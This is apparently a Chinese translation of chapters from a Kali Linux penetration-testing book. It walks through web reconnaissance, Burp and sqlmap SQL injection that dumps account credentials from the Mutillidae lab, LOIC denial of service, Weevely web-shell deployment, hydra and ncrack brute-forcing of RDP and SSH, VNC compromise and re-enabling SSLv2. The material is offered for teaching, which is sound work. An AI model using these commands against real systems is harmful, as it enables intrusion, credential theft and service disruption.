**负载均衡检测器**（**lbd**）是一个 bash shell 脚本，用于确定给定域名是否使用 DNS 和/或 HTTP 负载均衡。这对于测试人员来说是重要信息，因为当测试一个服务器，然后负载均衡器将请求转发到另一个服务器时，可以解释看似异常的结果。Lbd 使用各种检查来识别负载平衡的存在；以下截图显示了一个示例输出：


应检查网站以确定可能用于构建和维护网站的 CMS。诸如 Drupal、Joomla 和 WordPress 等 CMS 应用程序可能配置有易受攻击的管理界面，允许访问提升的权限，或者可能包含可利用的漏洞。

Kali 包括一个自动化扫描程序**BlindElephant**，用于指纹识别 CMS 以确定版本信息。以下截图显示了一个示例输出：


BlindElephant 审查 CMS 的组件指纹，然后提供了存在版本的最佳猜测。然而，与其他应用程序一样，我们发现它可能无法检测到存在的 CMS；因此，始终要根据其他爬行网站特定目录和文件的扫描器的结果进行验证，或者手动检查网站。

一种特定的扫描工具，自动网络爬虫，可用于验证已收集的信息，以及确定特定网站的现有目录和文件结构。网络爬虫的典型发现包括管理门户、配置文件（当前和以前的版本）可能包含硬编码访问凭据和内部结构信息、网站的备份副本、管理员注释、机密个人信息和源代码。

Kali 支持多个网络爬虫，包括 Burp Suite、DirBuster、OWASP-ZAP、Vega、WebScarab 和 WebSlayer。最常用的工具是 DirBuster。

DirBuster 是一个使用可能的目录和文件列表进行暴力分析网站结构的 GUI 驱动应用程序。响应可以以列表或树状格式查看，更准确地反映了网站的结构。执行该应用程序针对目标网站的输出如下截图所示：


还可以直接复制网站到测试人员的位置。这种“网站克隆”允许测试人员有时间审查目录结构及其内容，从本地文件中提取元数据，并使用网站内容作为`crunch`等程序的输入，以生成支持密码破解的个性化字典。

要将网站克隆到本地系统，请使用 HTTrack。如果 Kali 中没有该软件，可以使用`apt-get`命令进行下载，然后在命令提示符中输入`httrack`来执行。您将被提示选择一个目录位置来存储下载的网站。程序执行完毕后，您将拥有目标网站的备份。

一旦您已经映射出正在交付的网站和/或 Web 服务的基本结构，杀伤链的下一个阶段是识别可以利用的漏洞。

# 漏洞扫描仪

使用自动化工具进行漏洞扫描可能存在问题。Web 漏洞扫描仪遭受所有扫描仪的常见缺点（扫描仪只能检测已知漏洞的签名；它们无法确定漏洞是否实际可利用；存在高比例的*假阳性*报告）。此外，Web 漏洞扫描仪无法识别业务逻辑中的复杂错误，并且它们无法准确模拟黑客使用的复杂链式攻击。

为了提高可靠性，大多数渗透测试人员使用多种工具来扫描 Web 服务；当多个工具报告可能存在特定漏洞时，这种共识将指导测试人员需要手动验证的区域。

Kali 配备了大量用于 Web 服务的漏洞扫描仪，并提供了一个稳定的平台，用于安装新的扫描仪并扩展其功能。这使得渗透测试人员可以通过选择扫描工具来增加测试的有效性：

+   最大化测试的完整性（已识别的漏洞的总数）和准确性（真实的漏洞而不是假阳性结果）。

+   最小化获取可用结果所需的时间。

+   最小化对正在测试的 Web 服务的负面影响。这可能包括由于流量增加而导致系统减速。例如，最常见的负面影响之一是由于测试将数据输入到数据库然后通过电子邮件向个人提供已经进行的更改的更新的表单而导致的—对这些表单的不受控制的测试可能导致发送超过 30,000 封电子邮件！

选择最有效的工具存在相当大的复杂性。除了已列出的因素外，一些漏洞扫描仪还将启动适当的利用并支持后利用活动。对于我们的目的，我们将考虑所有扫描可利用弱点的工具为“漏洞扫描仪”。Kali 提供了对几种不同的漏洞扫描仪的访问，包括以下内容：

+   扩展传统漏洞扫描仪的功能以包括网站和相关服务（Metasploit Framework 和 Websploit）

+   扩展功能以支持 Web 服务漏洞扫描（OWASP Mantra）的非传统应用程序的扫描仪

+   专门开发以支持网站和 Web 服务中的侦察和利用检测的扫描仪（Arachnid、Nikto、Skipfish、Vega、w3af 等）

## 扩展传统漏洞扫描仪的功能

这种类型的漏洞扫描仪的最佳示例是 Metasploit Framework of Rapid7 中打包的`wmap`模块。要使用此模块，您必须首先确保`postgresql`数据库服务已启动；使用以下命令：

```
root@kali:~# service postgresql start 

```

接下来，从命令提示符启动`msfconsole`并输入`load wmap`命令。与大多数框架应用程序一样，在命令提示符中输入`help`或`-h`将显示可用于使用的命令。

管理目标站点，请使用`wmap_sites`命令。`-a`选项将目标的 IP 地址添加到应用程序的数据库中。`-l`选项提供了一个可用站点的列表，用于测试目标，如下面的截图所示：


选择目标后，测试人员现在可以使用以下命令运行`wmap`模块：

```
msf> wmap_run –e

```

上一个命令的执行显示在以下截图中：


执行此命令可能需要一些时间才能完成（这取决于网站页面的数量，以及网站的结构复杂性，以及所选模块操作以检测漏洞的方式）。

Metasploit 框架并不是为网站和网络服务的复杂性而设计的；这在使用该产品与使用专门为网站和网络服务设计的漏洞扫描器所得到的有限发现数量中是可见的。然而，由于它始终在更新，值得监控其扫描能力的变化。

**Websploit**应用程序还使用`wmap`模块。

## 扩展 Web 浏览器功能

Web 浏览器被设计用于与 Web 服务交互。因此，它们被选为漏洞评估和利用工具是很自然的。

这种工具集的最佳示例是 OWASP 的 Mantra——一个建立在 Firefox 网络浏览器上的第三方安全实用程序集。OWASP 的 Mantra 支持 Windows、Linux 和 Macintosh 测试系统，并提供支持以下活动的实用程序：

+   **信息收集**：这些实用程序提供被动侦察，报告目标的物理位置，揭示底层站点技术，并搜索和测试站点的超链接

+   **编辑器**：一组编辑、调试和监视 HTML、CSS 和 JavaScript 的实用程序

+   **代理**：提供代理管理工具的实用程序，包括 FoxyProxy，这是一个方便在代理之间切换的工具

+   **网络实用程序**：这些实用程序提供 FTP 和 SSH 通信的客户端，并简化 DNS 缓存管理。

+   **应用程序审计**：这些工具在各种用户代理之间切换，访问 Web 开发人员工具，控制每个站点发送的 HTTP 引用者，查找 SQL 注入和 XSS 漏洞，允许测试人员篡改数据，并访问 Websecurify 工具

+   **杂项**：生成脚本，管理会话和下载，并访问加密、解密和哈希标签功能

Mantra 框架可用于促进对网站的半自动侦察。

在以下截图中显示的示例中，Mutillidae 登录页面已在 Mantra 浏览器中打开。使用下拉菜单（从右上角的蓝色标志激活），从可用工具中选择了 SQL Inject Me 应用程序，并显示在左侧面板中。


## 特定于 Web 服务的漏洞扫描器

漏洞扫描器是自动化工具，用于爬行应用程序以识别已知漏洞的签名。

Kali 预装了几种不同的漏洞扫描器；可以通过导航到**Kali Linux** | **Web 应用程序** | **Web 漏洞扫描器**来访问它们。渗透测试人员通常会针对同一目标使用两到三个综合扫描器，以确保有效的结果。请注意，一些漏洞扫描器还包括攻击功能。

漏洞扫描器相当“喧闹”，通常会被受害者检测到。然而，扫描经常被忽略作为互联网上的常规后台探测的一部分。事实上，一些攻击者已知会对目标发起大规模扫描，以掩盖真正的攻击或诱使防御者禁用检测系统，以减少他们需要管理的报告的涌入。

对最重要的漏洞扫描器进行快速调查包括以下内容：

| 应用 | 描述 |
| --- | --- |
| Arachnid | 一个分析扫描期间接收的 HTTP 响应以验证响应并消除误报的开源 Ruby 框架。 |
| GoLismero | 它映射 Web 应用程序并检测常见的漏洞。结果以 TXT、CVS、HTML 和 RAW 格式保存。 |
| Nikto | 一个基于 Perl 的开源扫描器，允许 IDS 回避和用户更改扫描模块；然而，这个“原始”的网络扫描器开始显露其年龄，不如一些更现代的扫描器准确。 |
| Skipfish | 这个扫描器完成递归爬行和基于字典的爬行，生成一个带有来自其他漏洞扫描输出的交互式站点地图。 |
| Vega | 这是一个基于 GUI 的开源漏洞扫描器。由于它是用 Java 编写的，它是跨平台的（Linux、OS X 和 Windows），并且可以由用户定制。 |
| w3af | 这个扫描器为全面的 Python 测试平台提供了图形和命令行界面。它映射目标网站并扫描漏洞。这个项目被 Rapid7 收购，所以将来会与 Metasploit 框架更紧密地集成。 |
| Wapiti | 这是一个基于 Python 的开源漏洞扫描器。 |
| Webscarab | 这是 OWASP 基于 Java 的框架，用于分析 HTTP 和 HTTPS 协议。它可以充当拦截代理、模糊器和简单的漏洞扫描器。 |
| Webshag | 这是一个基于 Python 的网站爬虫和扫描器，可以利用复杂的 IDS 回避。 |
| Websploit | 这是一个针对有线和无线网络攻击的框架。 |

大多数测试人员开始使用 Nikto 来测试网站，这是一个简单的扫描器（特别是在报告方面），通常提供准确但有限的结果；这个扫描的样本输出如下图所示：


接下来要使用更先进的扫描器，扫描更多的漏洞；反过来，它们可能需要更长的时间才能完成。复杂的漏洞扫描（由要扫描的页面数量和站点的复杂性决定，可能包括允许用户输入的多个页面，如搜索功能或收集用户数据的表单，用于后端数据库）通常需要几天的时间才能完成。

根据发现的已验证漏洞数量，最有效的扫描器之一是 Subgraph 的 Vega。如下图所示，它扫描目标并将漏洞分类为高、中、低或信息。测试人员可以点击识别的结果“深入”到具体的发现。测试人员还可以修改用 Java 编写的搜索模块，以便专注于特定的漏洞或识别新的漏洞。


另一个值得使用的扫描器是**Web 应用攻击和审计框架**（**w3af**），这是一个基于 Python 的开源 Web 应用安全扫描器。它提供了预配置的漏洞扫描，支持 OWASP 等标准。扫描器的广泛选项是有代价的——它花费的时间比其他扫描器长得多，并且在长时间的测试期间容易出现故障。下面的屏幕截图显示了一个配置为对样本网站进行全面审计的 w3af 实例：


Kali 还包括一些特定应用的漏洞扫描器。例如，WPScan 专门针对**WordPress CMS**应用程序。

# 使用客户端代理进行安全测试

与自动化漏洞扫描器不同，客户端代理需要大量人工交互才能发挥作用。客户端代理拦截 HTTP 和 HTTPS 流量，允许渗透测试人员检查用户和应用程序之间的通信。它允许测试人员复制数据或与发送到应用程序的请求进行交互。

Kali 自带了几个客户端代理，包括 Burp Suite、OWASP ZAP、Paros、ProxyStrike、漏洞扫描器 Vega 和 WebScarab。经过广泛测试，我们已经开始依赖 Burp Proxy，并将 ZAP 作为备用工具。

Burp 主要用于拦截 HTTP(S)流量；然而，它是一个更大工具套件的一部分，具有几个额外的功能，包括：

+   一个能够识别网站的应用程序感知蜘蛛

+   漏洞扫描器，包括一个用于测试会话令牌随机性的顺序器，以及一个用于在客户端和网站之间操纵和重新发送请求的重复器（漏洞扫描器未包含在 Kali 打包的 Burp 代理的免费版本中）

+   一个可以用来发起定制攻击的入侵者工具（Kali 包含的免费版本工具有速度限制；如果购买了软件的商业版本，则这些限制将被移除）

+   编辑现有插件或编写新插件以扩展可以使用的攻击数量和类型的能力

要使用 Burp，请确保您的网络浏览器配置为使用本地代理；通常，您需要调整网络设置以指定 HTTP 和 HTTPS 流量必须使用本地主机（127.0.0.1）的 8080 端口。

设置浏览器和代理一起工作后，手动映射应用程序。这是通过关闭代理拦截，然后浏览整个应用程序来完成的。跟踪每个链接，提交表单，并尽可能多地登录到网站的各个区域。额外的内容将从各种响应中推断出来。站点地图将在**目标**选项卡下的一个区域中填充（也可以通过右键单击站点并选择**Spider This Host**来使用自动化爬行；然而，手动技术给了测试人员深入了解目标的机会，并且可能识别需要避免的区域）。

目标映射完成后，通过选择站点地图中的分支并使用**添加到范围**命令来定义目标-范围。完成后，您可以使用显示过滤器隐藏站点地图上不感兴趣的项目。下面的截图显示了目标网站的站点地图：


爬行完成后，手动审查目录和文件列表，查看是否有任何看起来不属于公共网站的结构，或者无意中泄露的内容。例如，名为 admin、backup、documentation 或 notes 的目录应该进行手动审查。

使用单引号作为输入手动测试登录页面产生了一个错误代码，表明可能容易受到 SQL 注入攻击的影响；错误代码的示例返回如下截图所示：


代理的真正优势在于其拦截和修改命令的能力。对于这个特定的例子，我们将使用 Mutillidae 网站——这是作为 Metasploitable 测试框架的一部分安装的一个“破损”网站，用于执行绕过 SQL 注入认证的攻击。

要发动这种攻击，请确保 Burp 代理已配置为拦截通信，方法是转到**代理**选项卡，然后选择**拦截**子选项卡。单击**拦截已打开**按钮，如下一张屏幕截图所示。完成后，打开浏览器窗口，并输入`<IP 地址>/mutillidae/index.php?page=login.php`以访问 Mutillidae 登录页面。在名称和密码字段中输入变量，然后单击登录按钮。

如果返回到 Burp 代理，您会看到用户在网页表单中输入的信息已被拦截。



单击**操作**按钮，然后选择**发送到入侵者**选项。打开主**入侵者**选项卡，您将看到四个子选项卡——**目标**、**位置**、**有效载荷**和**选项**，如下一张屏幕截图所示。如果选择**位置**，您将看到从拦截信息中识别出的五个有效载荷位置。


这种攻击将使用 Burp 代理的狙击手模式，它从测试人员提供的列表中获取单个输入，并将此输入逐个发送到单个有效载荷位置。在本例中，我们将针对用户名字段进行攻击，我们怀疑该字段基于返回的错误消息是易受攻击的。

为了定义有效载荷位置，我们选择子选项卡**有效载荷**。


要发动攻击，请从顶部菜单中选择**入侵者**，然后选择**开始攻击**。代理将迭代字典攻击所选有效载荷位置，作为合法的 HTTP 请求，并返回服务器的状态代码。如下一张屏幕截图所示，大多数选项产生**200**状态代码（请求成功）；但是，一些数据返回**302**状态代码（找到请求；表示所请求的资源目前位于不同的 URI 下）。


**302**状态表示成功的攻击，并且获取的数据可以用于成功登录到目标站点。

不幸的是，这只是对 Burp 代理及其功能的简要概述。Kali 附带的免费版本对许多测试任务已经足够；但是，严肃的测试人员（和攻击者）应考虑购买商业版本。

# 服务器漏洞利用

由于它们拥有广泛的“攻击面”（通信渠道、客户端软件、服务器操作系统、应用程序、中间件和后端数据库），Web 服务容易受到多种攻击类型的攻击。可能的攻击范围需要一本专门的书来描述；因此，我们只会展示一些类型，以突出 Kali 的功能。

在本示例中，我们将演示 Kali 如何用于对网络服务器发动拒绝服务（**DoS**）攻击。

一般来说，攻击提供 Web 服务的主机操作系统遵循先前描述的方法；但是，它们的架构特别容易受到 DoS 攻击。

Kali 包括几个被描述为压力测试应用程序的工具，因为它们模拟对服务器的高活动负载，以评估其对额外压力的应对能力。如果服务器或其应用程序失败，则它已遭受 DoS 攻击。

许多工具依赖于 IPv4 系统无法处理更新的 IPv6 协议（denail6、dos-new-ip6、flood_advertise6 等）。

然而，最成功的 DoS 攻击工具——**低轨道离子炮**（**LOIC**）——必须通过以下步骤手动添加到 Kali 中：

1.  使用`apt-get install`命令，安装以下软件包及其依赖项：`mono-gmcs`、`mono-mcs`、`monodevelop`和`liblog4net-cil-dev`。

1.  从 GitHub（[`github.com/NewEraCracker/LOIC/downloads`](https://github.com/NewEraCracker/LOIC/downloads)）下载 LOIC 到一个单独的文件夹中。使用解压命令将压缩文件解压到文件夹中。

1.  转到文件夹并使用以下命令编译应用程序：

```
mdtool build

```

1.  应用程序的编译版本将位于`/<path> bin/Debug/LOIC.exe`目录中。

输入攻击参数后，LOIC 可以针对目标网站启动。攻击使用直观的 GUI 界面启动，如下截图所示：


# 特定应用程序的攻击

特定应用程序的攻击数量超过了针对特定操作系统的攻击；考虑到可能影响每个在线应用程序的错误配置、漏洞和逻辑错误，令人惊讶的是任何应用程序都可以被认为是“安全”的。我们将重点介绍一些针对 Web 服务的重要攻击。

## 暴力破解访问凭证

针对网站或其服务的最常见的初始攻击之一是针对访问认证的暴力破解攻击——猜测用户名和密码。这种攻击成功率很高，因为用户倾向于选择易记的凭据或重复使用凭据，而且系统管理员经常不控制多次访问尝试。

Kali 自带 hydra，一个命令行工具，以及带有 GUI 界面的 hydra-gtk。这两个工具允许测试人员针对指定的服务暴力破解或迭代可能的用户名和密码。支持多种通信协议，包括 FTP、FTPS、HTTP、HTTPS、ICQ、IRC、LDAP、MySQL、Oracle、POP3、pcAnywhere、SNMP、SSH、VNC 等。以下截图显示了 hydra 使用暴力破解攻击来确定 HTTP 页面上的访问凭证：


## 对数据库的注入攻击

网站中最常见且可利用的漏洞是注入漏洞，当受害网站不监控用户输入时，攻击者可以与后端系统进行交互。攻击者可以构造输入数据来修改或窃取数据库中的内容，将可执行文件放置到服务器上，或向操作系统发出命令。

评估 SQL 注入漏洞最有用的工具之一是**sqlmap**，这是一个 Python 工具，可以自动进行对 Firebird、Microsoft SQL、MySQL、Oracle、PostgreSQL、Sybase 和 SAP MaxDB 数据库的侦察和利用。

我们将演示对 Mutillidae 数据库的 SQL 注入攻击。第一步是确定 Web 服务器、后端数据库管理系统和可用的数据库。

启动一个 Metasploitable 虚拟机，并访问 Mutillidae 网站。完成后，查看网页，以确定接受用户输入的页面（例如，接受远程用户的用户名和密码的用户登录表单）；这些页面可能容易受到 SQL 注入攻击。然后，打开 Kali，并从命令提示符输入以下内容（使用适当的目标 IP 地址）：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' --dbs 

```

Sqlmap 将返回数据，如下截图所示：


最有可能存储应用程序数据的数据库是`owasp10`数据库；因此，我们将使用以下命令检查该数据库的所有表：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' –D owasp10 --tables 

```

执行该命令后返回的数据显示在以下截图中：


在枚举的六个表中，有一个名为`accounts`。我们将尝试从表的这一部分中转储数据。如果成功，帐户凭据将允许我们在进一步的 SQL 注入攻击失败时返回到数据库。要转储凭据，请使用以下命令：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' –D owasp10 – T accounts --dump 

```


类似的攻击也可以用于数据库，以提取信用卡号码。

# 使用 Web 后门维持访问

一旦 Web 服务器及其服务被攻破，就很重要确保可以保持安全访问。通常使用 Web shell 来实现这一点——这是一个提供隐蔽后门访问并允许使用系统命令来促进后期利用活动的小型程序。

Kali 自带了几个 Web shell；在这里我们将使用一个名为**Weevely**的流行 PHP Web shell。

Weevely 模拟 Telnet 会话，并允许测试者或攻击者利用 30 多个模块进行后期利用任务，包括以下内容：

+   浏览目标文件系统

+   与受攻击系统之间的文件传输

+   执行常见服务器配置错误的审计

+   通过目标系统对 SQL 账户进行暴力破解

+   生成反向 TCP shell

+   在已经受到攻击的远程系统上执行命令，即使已经应用了 PHP 安全限制

最后，Weevely 努力隐藏 HTTP cookie 中的通信，以避免被检测。要创建 Weevely，请从命令提示符中发出以下命令：

```
root@kali:~# weevely generate <password> <path>

```

这将在根目录中创建文件`weevely.php`。在已经受到攻击的远程系统上执行命令，即使已经应用了 PHP 安全限制：


使用文件上传漏洞或任何其他受损，包括可以访问 meterpreter 文件上传功能的漏洞，将`weevely.php`上传到受攻击的网站。

要与 Web shell 通信，请从命令提示符中发出以下命令，确保目标 IP 地址、目录和密码变量已更改以反映受攻击系统的情况：

```
root@kali:~# weevely http://<target IP address> <directory> 
  <password> 

```

在下面的屏幕截图示例中，我们已经验证了使用`whoami`命令（用于识别正确的目录）和`ls`命令（用于获取文件列表，再次确认连接源为`weevely.php`）。使用`cat /etc/password`命令查看密码。


Web shell 还可以用于建立反向 shell 连接到测试者，使用 Netcat 或 Metasploit Framework 作为本地监听器。

# 总结

在本章中，我们从攻击者的角度审查了网站及其为授权用户提供的服务。我们应用了杀伤链视角来理解对 Web 服务的正确应用侦察和漏洞扫描。

介绍了几种不同的漏洞扫描器；我们重点是对现有扫描器进行修改以支持网站和 Web 服务的评估，使用基于浏览器的漏洞扫描器，以及专门设计用于评估网站及其服务的漏洞扫描器。我们只审查了少数几个利用，最后通过对专门用于 Web 服务的 Web shell 进行了审查。

在下一章中，我们将学习如何识别和攻击将用户连接到 Web 服务的远程访问通信。

# 第十章.利用远程访问通信

在第九章中，*基于 Web 的应用程序的侦察和利用*，我们对基于 Web 的应用程序应用了杀伤链方法。我们审查了侦察、漏洞扫描和利用方法，这些方法特别适用于网站和其他应用程序。我们还审查了评估基于 Web 的应用程序所需的独特工具，特别是客户端代理和后期利用工具，如 Web shell。

在本章中，我们将重点放在破坏互联网上已经广泛传播的设备和应用程序的远程访问通信上。

攻击者正在利用远程访问通信的普遍性来实现以下目标：

+   利用现有的通信渠道直接远程访问目标系统

+   拦截通信

+   拒绝经过身份验证的用户访问常规通信，并强迫他们使用可能容易受到其他攻击的不安全通道

由于大多数用户认为他们正在使用“安全”的通信工具（甚至银行依赖 SSL 协议来保护在线银行业务），这些攻击可能对被攻击的通信以及受害者对其他在线通信的信任产生重大影响。

本章将重点放在侦察和利用杀伤链的阶段，因为它们与远程访问通信有关。它不涵盖诸如战争拨号、VoIP 和相关电话问题、高度专有的系统（如专门的亭台）以及值得拥有自己的书籍的复杂应用程序。

在本章结束时，您将学到以下内容：

+   利用操作系统通信协议（RDP 和 SSH）

+   利用远程访问应用程序（VNC）

+   配置 Kali 进行安全套接层 v2 扫描

+   对安全套接层进行侦察和利用，包括中间人和拒绝服务攻击。

+   攻击虚拟专用网络

# 利用操作系统通信协议

一些协议以明文传输访问凭据（Telnet 和 FTP）。使用诸如 Wireshark 之类的数据包嗅探器将允许攻击者拦截和重用凭据。

然而，大多数远程访问协议，尤其是嵌入在操作系统中的协议，现在都受到访问控制和加密的保护。尽管这增加了一定程度的安全性，但它们仍然容易受到由于配置错误或使用较差的加密密钥而导致的攻击。在本节中，我们将研究其他可能被利用来破坏所谓安全通信渠道的风险。

## 破坏远程桌面协议

**远程桌面协议**（**RDP**）是微软的专有通信协议，允许客户端使用图形界面连接到另一台计算机。尽管该协议是加密的，但如果攻击者猜到用户名和密码，就可以访问服务器。

### 注意

应该注意到，最常见的破坏 RDP 的方法是利用社交工程。用户被远程服务技术人员联系，说服用户需要远程访问以修复用户系统上的问题。针对 RDP 协议的恶意软件攻击也越来越普遍。

从测试人员（或攻击者）的角度来看，破坏目标的 RDP 服务的第一步是找到 RDP 服务器并确定所使用的加密强度。通常使用`nmap`等工具进行侦察，配置为扫描标准 RDP 端口 3389。

`nmap`工具现在包括专门的脚本，提供有关 RDP 的其他详细信息，包括加密配置。如果时间允许，且隐蔽性不是问题，应在初始扫描阶段使用这些脚本。调用枚举支持的加密协议的脚本的命令行如下：

```
root@kali:~# nmap – p 3389 –-script rdp-enum-encryption <IP>

```

上一个命令的执行结果如下截图所示：


已经发现了一些 RDP 漏洞（尤其是 MS12-020），可以利用精心制作的数据包远程利用这些漏洞。

要确定当前版本的 RDP 是否存在漏洞，请使用适当的`nmap`脚本，通过调用以下命令行来执行：

```
root@kali:~# nmap –sV -p 3389 --script rdp-vuln-ms12-020 
  < IP> 

```

上一个命令的执行结果如下截图所示：


一旦使用`nmap`识别出一个易受攻击的系统，就可以利用 Metasploit Framework 的`auxiliary/dos/windows/rdp/ms12_020_maxchannelids`模块来造成拒绝服务。

RDP 最常见的破解方法是使用基于最常见用户名和密码字典的暴力攻击（也可以使用诸如**CeWL**和**crunch**之类的工具构建特定目标的字典，使用这些字典的暴力攻击比使用通用字典的尝试更快，并且更隐蔽，因为它们生成的网络流量更少）。

Kali 提供了几个工具来暴力破解访问，包括**hydra**、**medusa**、**ncrack**和**patator**。通过测试，我们发现`ncrack`在速度和效果方面是最可靠的。

### 提示

常见用户名和密码列表可以从多个来源获取。大多数破解工具，特别是`hydra`、`ncrack`和`john`（John the Ripper），都在应用程序的主目录中包含列表。测试人员还可以从在线来源下载各种类型的列表。从受损用户帐户派生的列表特别有用，因为它们反映了认证信息的真实世界使用情况。无论您使用哪个列表，您可能希望通过添加当前和以前员工的姓名（用于用户名）或使用诸如 CeWL 之类的工具创建的单词列表来个性化测试。

`ncrack`工具是一个高速身份验证破解工具，支持 FTP、HTTP(S)、POP3、RDP、SMB、SSH、Telnet 和 VNC 协议。可以使用以下命令从终端窗口调用它：

```
root@kali:~# ncrack -vv -U user.lst -P password.list
  <Taget IP>:<Target Port> 

```

上述命令的执行如下截图所示：


`ncrack`工具在大约 1700 秒内发现了所有用户的访问凭据。但所需的时间取决于使用的字典的总体大小以及在成功命中之前必须进行多少次猜测。

## 破解安全外壳

**安全外壳**（**SSH**）协议是一种网络协议，用于在服务器和客户端之间的开放网络上建立加密通道。一般来说，公钥-私钥对允许用户登录系统而无需密码。公钥存在于所有需要安全连接的系统上，而用户保留私钥。认证是基于私钥的；SSH 会验证私钥与公钥。在目标系统上，公钥会与允许远程访问系统的授权密钥列表进行验证。当公钥不具有密码学强度并且可以被猜测时，这种被认为是安全的通信渠道会失败。

与 RDP 一样，SSH 容易受到猜测用户访问凭据的暴力攻击。在这个特定的例子中，我们将使用一个名为`hydra`的工具。`hydra`工具可能是最古老的暴力攻击工具，绝对是功能最丰富的工具。它还支持对最多目标协议的攻击。

`hydra`工具可以在**Kali Linux** | **密码攻击** | **在线攻击**中找到，也可以直接从命令行调用。有两个版本的`hydra`：命令行版本（`hydra`）和 GUI 版本（hydra-gtk）。在这个例子中，我们将使用以下命令从命令行调用`hydra`：

```
root@kali:~# hydra -s 22 -v -V -L <file path/name>
  -P <file path/name> -t 8 <Target IP><protocol> 

```

命令参数如下列表所述：

+   `-s`指定要使用的端口。虽然在打算使用默认端口时不需要输入它，但在这种情况下使用它可以消除歧义并加快测试速度。

+   `-v`和`-V`选择报告的最大详细程度。

+   `-L`选择登录或用户名文件。

+   `-P`选择密码文件。

+   `-t`选择并行任务或连接的数量。数字越大，测试速度越快。但是，如果数字太大，可能会引入错误，并且会错过正确的密码。

以下屏幕截图显示了初始暴力攻击的详细输出：


当使用字典成功登录时，`hydra`报告端口、协议、主机和登录凭据。然后它继续使用字典来识别其他可能的帐户。在以下截图的最顶部行中，Hydra 正确识别了一个具有`DigitalDefence`作为`login`和`darkstar`作为`password`的 SSH 帐户；截图还显示了 Hydra 尝试识别其他帐户的其他尝试。


如果您知道密码配置，还可以使用`hydra`动态创建密码列表，使用以下命令：

```
root@kali:~# hydra –L user.lst –V –x 6:8:aA1 <IP address> SSH

```

上一个命令中使用的参数在以下列表中描述：

+   `-x`指示 Hydra 自动创建用于暴力攻击的密码。密码将根据`-x`后面的参数创建。

+   `6:8`表示密码长度的最小值为六个字符，最大值为八个字符。

+   `aA1`将自动创建使用字母和数字的密码组合。它将使用所有小写字母（由`a`表示）和所有大写字母（由`A`表示），以及数字 0 到 9（由`1`表示）。

您还可以向生成的列表中添加特殊字符，但是需要在`-x`选项周围添加单引号，如下命令所示：

```
root@kali:~# -L user.lst –V –x '6:8:aA1 !@#$' <IP address> SSH

```

# 利用第三方远程访问应用程序

绕过系统协议以提供远程访问的应用程序曾经非常流行。尽管它们目前正在被在线服务如**GoToMyPC**和**LogMeIn**所取代，但它们仍然很常见。此类程序的示例包括 pcAnywhere 和 VNC。

这些工具的实例可能存在于网络上，因为系统管理员的合法操作。然而，它们也可能存在是因为网络已经被入侵，攻击者想要一种远程访问网络的手段。

在以下示例中，我们将使用 Metasploit 框架的内置功能来妥协 VNC。

1.  使用`nmap`在目标上找到远程访问软件。如下截图所示，VNC 通常在 TCP 端口`5900`上找到。

1.  使用终端窗口中的`msfconsole`命令激活 Metasploit 框架。从`msf`提示符，配置它以妥协 VNC，如下截图所示：

1.  启动`run`命令，如下截图所示，并观察成功运行：

1.  最后，一旦 Metasploit 确定了凭据，通过使用`vncviewer`登录到 VNC 客户端验证它们。从终端窗口的命令提示符中，输入以下内容：

```
root@kali:~# vncviewer <Target IP>

```

这将连接到远程主机并提示您输入适当的凭据。当认证成功时，将打开一个新窗口，让您远程访问目标系统。通过发出`whoami`查询验证您是否在目标系统上，如下截图所示，并请求系统的 ID 或 IP 地址：



# 攻击安全套接字层

**安全套接字层**（**SSL**）及其后继者**传输层安全**（**TLS**）是用于在互联网上提供安全通信的加密协议。这些协议已被广泛用于安全应用，如互联网消息传递和电子邮件、网页浏览和 IP 语音。

这些协议在互联网上无处不在，然而，它们起源于上世纪 90 年代中期，并且随着年龄的增长，它们越来越受到攻击。SSL 2.0 版本（1.0 版本从未公开发布）包含大量可以被利用的缺陷，如密钥控制不当和中间人攻击的弱点。尽管大多数用户已经实现了该协议的 3.0 版本或更新版本的 TLS，但配置错误的系统可能仍然允许使用较早的不安全版本。

## 配置 Kali 进行 SSLv2 扫描

在开始侦察阶段之前，请验证 Kali 是否已配置为扫描 SSL 版本 2 协议。在撰写本书时，情况并非如此。

从终端窗口输入以下命令：

```
root@kali:~# openssl_s_client -connect 
  www.opensecurityresearch.com:443 -ssl2 

```

如果返回`unknown option -ssl2`错误（如下面的屏幕截图所示），则需要进行额外的配置。


要应用修复，您必须使用以下步骤重新对 OpenSSL 应用程序进行打补丁（确保使用的路径反映了下载目录的使用）：

1.  使用以下命令安装**quilt**，这是一个用于管理应用程序源代码的多个补丁的程序：

```
root@kali:~# apt-get install devscripts quilt

```

1.  下载`openssl`源代码，验证已应用的补丁，更新配置文件，然后重新构建应用程序。使用以下命令：

```
root@kali:~# apt-get source openssl
root@kali:~# cd openssl-1.0.1e
root@kali:~/openssl-1.0.1e# quilt pop -a

```

1.  编辑`openssl-1.0.1e/debian/patches/series`文件，删除文件中的以下行：

```
ssltest_no_sslv2.patch

```

1.  编辑`openssl-1.0.1e/debian/rules`文件，删除`no-ssl2`参数。然后，重新应用`openssl`的补丁。使用以下命令：

```
root@kali:~/openssl-1.0.1e# quilt push -a
root@kali:~/openssl-1.0.1e#  dch -n 'Allow SSLv2'

```

1.  完成后，重新构建`openssl`软件包，然后重新安装。可以使用以下命令执行此步骤：

```
root@kali:~/openssl-1.0.1e# dpkg-source  --commit
root@kali:~/openssl-1.0.1e# debuild -uc -us
root@kali:~/openssl-1.0.1e# cd /root
root@kali:~# dpkg -i *ssl*.deb

```

1.  确认已成功应用补丁，重新发出使用 SSLv2 连接的命令，如下面的屏幕截图所示：

依赖于`openssl`的 Kali 脚本，特别是`sslscan`，将需要重新编译。要重新编译，首先下载源代码，然后重新构建。完成后，使用以下命令重新安装：

```
root@kali:~# apt-get source sslscan
root@kali:~# cd sslscan-1.8.2
root@kali:~/sslscan-1.8.2# debuild -uc -us
root@kali:~/sslscan-1.8.2# cd /root
rootl@kali:~# dpkg -i *sslscan*.deb

```

Kali 对 SSLv2 的问题可能在将来的版本中得到解决，因此，在测试 SSL 连接之前，请先验证这一点。

## SSL 连接的侦察

在评估 SSL 连接时，侦察阶段仍然很重要，特别是在审查以下项目时：

+   用于识别建立安全 SSL 连接的各方的**x.509**证书

+   正在使用的加密类型

